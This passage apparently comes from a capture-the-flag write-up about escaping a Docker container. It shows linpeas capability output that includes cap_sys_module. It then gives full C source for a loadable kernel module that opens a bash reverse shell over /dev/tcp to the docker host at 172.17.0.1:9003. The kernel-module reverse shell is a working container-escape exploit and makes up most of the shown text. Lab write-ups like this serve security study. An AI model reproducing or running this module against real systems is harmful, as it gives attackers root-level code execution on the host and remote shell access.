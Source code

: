 we're inside container, reuse linpeas.sh again will determining docker capabilities show up.

```bash
╔══════════╣ Capabilities
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities
Current capabilities:
Current: = cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap+eip
CapInh: 00000000a80525fb
CapPrm: 00000000a80525fb
CapEff: 00000000a80525fb
CapBnd: 00000000a80525fb
CapAmb: 0000000000000000
```
![](/assets/img/monitor/26.png)

## CAP_SYS_MODULE
cap_sys_module allows the process to load and unload arbitary kernel modules. the kernel can be modified at will, subverting all, system security, container system, and cap_sys_module is one of common technique for container escaping.

create file reverse-shell.c and modify the ip address into docker host which is 172.17.0.1

```c
#include <linux/kmod.h>
#include <linux/module.h>
MODULE_LICENSE("GPL");
MODULE_AUTHOR("AttackDefense");
MODULE_DESCRIPTION("LKM reverse shell module");
MODULE_VERSION("1.0");

//change host ip
char* argv[] = {"/bin/bash","-c","bash -i >& /dev/tcp/172.17.0.1/9003 0>&1", NULL};
static char* envp[] = {"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin", NULL };

// call_usermodehelper function is used to create user mode processes from kernel space
static int __init reverse_shell_init(void) {
    return call_usermodehelper(argv[0], argv, envp, UMH_WAIT_EXEC);
}

static void __exit reverse_shell_exit(void) {
    printk(KERN_INFO "Exiting\n");
}

module_init(reverse_shell_init);
module_exit(reverse_shell_exit);
```
